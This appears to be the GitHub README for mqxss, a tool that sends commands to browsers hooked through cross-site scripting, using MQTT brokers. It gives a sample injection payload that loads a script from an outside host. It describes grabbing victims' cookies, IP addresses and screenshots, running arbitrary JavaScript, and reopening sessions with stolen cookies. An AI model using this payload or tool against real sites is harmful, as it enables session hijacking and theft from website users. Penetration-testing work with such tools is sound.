 # mqxss


**mqxss acts as a client to communicate with hooked browsers over MQTT**



![Screenshot from 2023-07-03 15-15-35](https://github.com/grampae/mqxss/assets/36344197/d5fae62a-bc5c-4d98-b45e-03cdf541e979)




I created this without a lot of bells and whistles so that the user could send raw JS to the hooked browser.  The benefit to using this over beef or xsshunter is that there is no infra setup, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.

To generate a JS payload to hook browsers with set the -g flag at runtime along with your broker, port and topic variables.  Doing so will create your payload in the /js/ folder.

Then send your XSS payload to the victim while the mqxss client is running, ex: '"><script src=https://example.com/x.js></script> or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

 
**Features:**

- **js payload utilizes MQTT QoS 1 and Last Will, mqxss will be notified of disconnects or connects that occur while client is not connected to the broker.
- **currently only works with mqtt brokers that use secure websockets however future version will supports mqtts as well.**
- **open hooked browser location with captured cookies**
- **when hooked it grabs cookies, ip, device type, user agent**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **pushover notification**
- **screenshot of hooked browser**

**Todo:**

- [ ] Encryption (currently just obfuscated)
- [ ] Set user , password  for brokers that require it at runtime
- [x] Generate js payload at runtime to hook browsers with
- [x] Open browser with hooked browser cookies for convenience
